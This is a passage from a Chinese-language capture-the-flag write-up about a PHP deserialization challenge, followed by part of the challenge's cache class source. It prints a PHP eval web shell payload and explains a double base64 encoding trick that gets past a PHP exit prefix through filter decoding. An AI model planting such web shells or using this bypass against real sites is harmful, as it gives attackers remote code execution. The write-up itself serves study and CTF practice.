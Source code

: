 ```
=&gt;
[null,"&lt;?php eval($_POST[\"cmd\"]);?&gt;"]

```

> 
可以看到直接complete写入shell会使shell中双引号被转义了，所以得考虑用base64编码绕过转义，再在之后解码；<br/> 由于之后可以让$this-&gt;options[‘serialize’]=base64.decode，这样和filter://就共有两处解码处理，所以对应这里考虑编码两次；


> 
这里还要了解base64解码特点，base64解码的合法字符只包括[a-zA-Z1-9]+/这64个字符；<br/> 1、编码时：把明文每8位按6位查表转码，不足的位数用=补0<br/> 2、解码时：忽略[",:等64个字符之外的字符，然后逆运算就行<br/> 所以要求编码为4的倍数，由于shell前面的字符串中存在的base64编码有效字符只有php//000000000000exit21个字符，因此应该在shell前补上3个有效字符


## Payload

> 
题目源码


```
&lt;?php
error_reporting(0);

class A {

    protected $store;

    protected $key;

    protected $expire;

    public function __construct($store, $key = 'flysystem', $expire = null) {
        $this-&gt;key = $key;
        $this-&gt;store = $store;
        $this-&gt;expire = $expire;
    }

    public function cleanContents(array $contents) {
        $cachedProperties = array_flip([
            'path', 'dirname', 'basename', 'extension', 'filename',
            'size', 'mimetype', 'visibility', 'timestamp', 'type',
        ]);

        foreach ($contents as $path =&gt; $object) {
            if (is_array($object)) {
                $contents[$path] = array_intersect_key($object, $cachedProperties);
            }
        }

        return $contents;
    }

    public function getForStorage() {
        $cleaned = $this-&gt;cleanContents($this-&gt;cache);

        return json_encode([$cleaned, $this-&gt;complete]);
    }

    public function save() {
        $contents = $this-&gt;getForStorage();

        $this-&gt;store-&gt;set($this-&gt;key, $contents, $this-&gt;expire);
    }
```
